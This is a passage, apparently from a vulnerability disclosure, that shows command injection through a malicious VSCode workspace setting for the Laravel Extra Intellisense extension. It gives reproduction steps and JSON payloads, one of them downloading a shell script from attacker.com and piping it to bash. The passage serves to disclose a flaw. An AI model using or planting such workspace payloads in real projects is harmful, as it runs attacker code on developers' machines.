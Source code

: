 2. Open this repository in VSCode with the Laravel Extra Intellisense extension installed

3. When prompted by VSCode, accept the workspace settings

4. Verify that the file `/tmp/cmd_injected.txt` is created, proving command injection

5. For Windows:
```json
{
  "LaravelExtraIntellisense.phpCommand": "cmd /c \"echo VULNERABLE > %TEMP%\\pwned.txt\" && php -r \"{code}\""
}
```

6. An actual attacker might use a more harmful payload like:
```json
{
    "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/shell.sh | bash"
}
